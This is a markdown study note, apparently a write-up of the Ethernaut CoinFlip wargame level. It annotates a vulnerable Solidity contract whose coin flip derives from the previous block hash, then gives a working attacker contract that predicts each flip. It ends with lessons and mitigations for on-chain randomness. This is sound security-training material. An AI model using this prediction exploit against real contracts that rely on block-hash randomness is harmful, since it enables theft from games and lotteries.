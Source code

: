 ```yaml
---
tags: 🥷
url: https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f
topic: [[Blockchain]]
---
```


# 4. CoinFlip
- used [mythrill](https://github.com/ConsenSys/mythril) for static analysis on EVM bytecode: `myth a CoinFlip.sol`
	- make sure you store your contracts locally *(`coinFlip.sol` & dependencies: `SafeMath.sol`)* 
	- control flow decision is made based on the block hash of a previous block
- we might be able to guess every time by having control over how the `blockValue` is determined, so let's look @ the contract

## Disecting the contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract CoinFlip {

    using SafeMath for uint256;
    uint256 public consecutiveWins;
    uint256 lastHash;
    // it's actually 2^255
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Setup the counter to 0
    constructor() public {
      consecutiveWins = 0;
    }


    // give a bool, get bool back
    function flip(bool _guess) public returns (bool) {
      // block.number: the curr block nr
      // blockhash(): hash of the given block — only for 256 most recent blocks
      // look @ the nr of the prev block, get hash & cast to uint256
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));


      // check for multiple txs  on the same block  
      // and let through only the first one
      if (lastHash == blockValue) {
        // undo all state changes, but handled 
        // differently than an `invalid opcode`
        //   - allows youo to return value
        //   - or refund remaining gas to caller
        revert();
      }
      // set the lastHash based on blockValue
      // ! it's entirely dependent on the block tx is included on
      lastHash = blockValue;
      
      // btw: 3 / 4 = 0 in solidity
      // so we should get only 1 or 0
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;

      // compare pseudo random flip result with
      // user's guess & adjust wins accordingly
      if (side == _guess) {
        consecutiveWins++;
        return true;
      } else {
        consecutiveWins = 0;
        return false;
      }
    }
}
```

## Exploitation
**Every single transaction in the same block can determine the same `blockValue` => evaluate the *coinflip* result**. 

How we could do that ? As always the best way to attack a smart contract is with another smart contract :))
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";
using SafeMath for uint256;

contract CoinFlip {
	...
}

contract angryApe {
  CoinFlip public flipper; // instance of target contract
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  bool public guess; // make guess accesible

  // init connection to the target contract
  constructor() {
    flipper = CoinFlip(0x37b29A2b9d16b4d005EfcEce415e555C5FD2cf71);
  }

  // sometimes you can cheat
  function cheat() public returns(bool) {
    // calculate blockValue, flip & get your guss
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 flip       = blockValue.div(FACTOR);
    guess   = flip == 1 ? true : false;

    // send to target contract
    flipper.flip(guess);
    return true;
  }
}
```

The only thing left to be done is to spam the `cheat()` function
> *is there any way to automate this?*


## Takeaways
>  "This property of Proof of Work based consensus is one of the greatest obstacles to achieving truly random outcomes on the blockchain. Think on that before building a decentralized lotto 🤑"
- generating random numbers in solidity can be tricky, since everything in smart contracts i publicly visible *(including the local `private` vars)*
- whenever developing a smart contract keep in mind that miners also have control over things like: blockhashes, timestamps & whether to include certain txs
- **Mitigation**
	- to get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.
	- other options include using Bitcoin block headers *(verified through [BTC Relay](http://btcrelay.org/))*, [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
